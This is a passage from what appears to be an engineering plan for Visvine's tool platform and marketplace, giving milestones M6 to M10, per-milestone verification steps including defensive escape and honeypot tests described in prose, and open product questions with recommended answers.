| M6 | **Manifest v2, bindings, bridge v2** | `packages/tool-protocol`; config rows with the five traps handled (4.1); bindings end to end, including shared-down installs; settings; multi-file sources with the widened seal and rebuild hook; curated dependencies; `records.*`, `resources.*`, `context.links`, `actions.run` under its four rules, `ai.*` with the AI-assisted origin, `state` scopes, `ui.*`; protocol 2 beside 1; the kit rebuilt on `@visvine/ui`, and the catalog regenerated from `packages/ui`; SDK docs | M3, M5 | v1 tools run unchanged; a tool with bindings installs into a space with different folder and type names and works; a test per bridge method proves the permission gate runs before the grant check; an `actions.run` naming another space is refused | L |
| M7 | **Going global** | AI review on the chat model; the dynamic run through a review target against a honeypot space on a machine; author co-sign, license, `tools:list`, submit/withdraw on MCP and in the UI; `.vvtool` export/import, signing listed versions only; About for tools not installed; Tools in Discover; the global install sheet, first-use notice, provenance line and staged reach (as rows); `app_tool_listings` + transfer | M6 | a canary write-out blocks a listing; export from space A, import to B, bind, run; install from Discover end to end; a transferred listing keeps offering upgrades | L |
| M8 | **Monitoring and marketplace ops** | telemetry without hot rows; incidents; anomaly rules; auto-suspension on two independent severe signals; the reviewer console; reports; verified publishers as data; rescans when rules or feeds change | M7 | a planted navigation in a staging listing suspends it and stops its installs within a minute | L |
| M9 | **Starter repo and CLI** | `visvine/tool-starter` with its `AGENTS.md` and `COMPONENTS.md`; `@visvine/tool-kit` on npm with a mock runtime and a component gallery; `@visvine/tool-cli`; the CI workflow; deploy keys (if approved) | M6, M7 | from a fresh clone, someone with an AI coding agent builds, previews and publishes a tool in under 15 minutes from the README alone | M |
| M10 | **Collections** | `app_tool_records`, the API, rules, quotas, export, retention on uninstall, `deleteAccount` coverage | M6 | a poll tool holding 10k votes; a member deleting their account leaves none of their rows | M |

**The gate:** Tools in Discover opens to every space only after M8. Until then
a global listing stays as it is today — reviewed by Visvine, installed by key —
so the marketplace never runs without the monitoring that makes revocation
real.

**AGENTS.md changes with the behaviour, never ahead of it:** "nothing in the
apps creates anything" gains the builder's exception in M4; "there is no
`/tools` destination" becomes "tools are browsed in Discover" in M7; "the
phone apps" line says tools are web and desktop only in M1. "`@visvine/ui` is
the only shared UI" stays true because M6 builds the kit on it.

### 10.1 How each milestone is verified

- **Every milestone:** `pnpm typecheck`, `pnpm lint` (`--max-warnings=0`),
  `pnpm test`, `pnpm --filter @visvine/web knip`. Every schema change is a
  migration made with `pnpm db:migrate:new`, its SQL read before commit.
- **New pure tests** beside today's tool tests, one per concern:
  `tools-preview-gate`, `tools-verdicts` and `tools-limits-rows` (M0);
  `tools-client-class` (M1); `tools-shell-nav` (M2); `tools-scan-corpus` over a
  fixture corpus of benign and malicious tools, and `tools-diff-coverage` (M3);
  `records-fields` (M5); `tools-bindings` and `tools-bridge-v2` (M6);
  `tools-package` (M7); `tools-anomaly` (M8); `tools-collections` and the
  `delete-account` schema check (M10).
- **Scripted, against `pnpm dev`:** `verify:tools` grows with each milestone's
  flow (install from the sheet, bind, export/import, submit/review);
  `verify:tools:escape` adds a bearer token asking for a frame token, a
  non-writer opening a preview, a member calling an admin-only tool, an image
  pointed at a foreign bucket, a frame navigating itself, and a suspended
  version still being asked for.
- **In the running apps:** web — build a tool with the AI builder, publish,
  install from the sheet, switch sections on the band; desktop (`apps/desktop`
  in dev against the local server) — a test tool that navigates itself is
  cancelled and logged; iOS and Android simulators — no Tools tab, and every
  tool route answers 403 to the app's token; Claude Code over the local MCP
  server (`pnpm mcp:dev`) — the full MCP authoring loop; a fresh clone of the
  starter repo — dev, push, publish.
- **Migrations of existing data:** `db:tools:to-rows` dry-run on the seeded
  space before it writes; `pnpm db:notes:verify` after.

---

## 11. Open questions and decisions

**Already decided (2026-09-25):** tools live in the existing rail, one row per
tool, with no separate tools page — a tool's own navigation is band tabs or a
side list in the app's style, and its About view is its package page (§3.6);
the app's components, sidebar included, are in every authoring path's context
so tools match the app by default, and authors may choose their own look
(§3.6, §6.3); the space's shape is what a space installs and places (§5.3);
in-app building is the AI builder plus the Workbench (§6.2).

Each question below has a recommendation; "as recommended" is enough to start.

**Review and trust**

1. **Who reviews global tools?** Today only the env-listed super-admins.
   *Recommended: a `tool_reviewer` role Visvine assigns, with a
   five-business-day target (Raycast's).*
2. **Dependencies.** *Recommended: a curated allowlist the server vendors
   (§6.4).* The alternative — any npm package, scanned — widens what authors can
   build and what reviewers must trust.
3. **Licensing and source.** *Recommended: any SPDX license or `proprietary`
   for global tools, with source always readable by an admin deciding whether
   to install.* Raycast requires MIT; say if you want an open-source rule.
4. **Author consent.** *Recommended: a member's tool is listed globally only
   with the author's co-sign, and the listing names them.*
5. **Staged reach.** *Recommended: new listings from unverified publishers
   capped at 25 spaces for 14 days (§5.5).* Different numbers, or none?

**Capabilities**

6. **AI inside tools.** *Recommended: allow `ai.complete` / `ai.decide` on the
   space's own model and judge, metered to the space's budget cap, shown on the
   install sheet, with a per-install monthly cap the admin sets.*
7. **Member first-use notice** for tools from outside the space that act as
   the member (§5.5). *Recommended: yes.* It is the one new line of text a
   member ever sees; the alternative is admin consent alone.
8. **Collections.** Build in M10, or pull forward if polls, sign-ups or forms
   are among the first tools you want?
9. **CI credentials.** *Recommended: per-tool deploy keys (`tools:author` on
   one folder, revocable) in M9.* Without them the starter repo's CI can check
   but not push.

**Scope**

10. **Discovery returns.** The `/tools` marketplace was deleted on 2026-09-01
    and the Mine tab on 2026-09-18. The plan brings browsing back as Tools in
    Discover (outside every space, like Discover's Spaces and Events), opening
    the same About page. If the deletion was meant to keep tools space-local,
    say so and M7 drops the directory.
11. **Mobile browsers.** *Recommended: treat as web; hide the tools rail below
    the phone breakpoint; claim technical enforcement only for the apps (§8.4).*
12. **Tools outside Visvine.** MCP Apps could draw a tool inside Claude or
    ChatGPT. Your requirement excludes it; confirm it stays out.
13. **Where Build a tool lives.** *Recommended: one row in the rail's More
    sheet.* Alternatives: Discover → Tools, or Console → Tools (admins only).

**Housekeeping**

14. **Live listings.** Are any tools listed on the marketplace in production
    today? If so they are re-checked under the M3 and M7 rules before the directory
    opens.
15. **The four live bugs** in §9.1 — *recommended: fix the mobile OAuth
    redirect and the node `PATCH` now, as their own commits, ahead of and
    independent from this plan; the preview and admin-only-lock fixes open
    M0.*
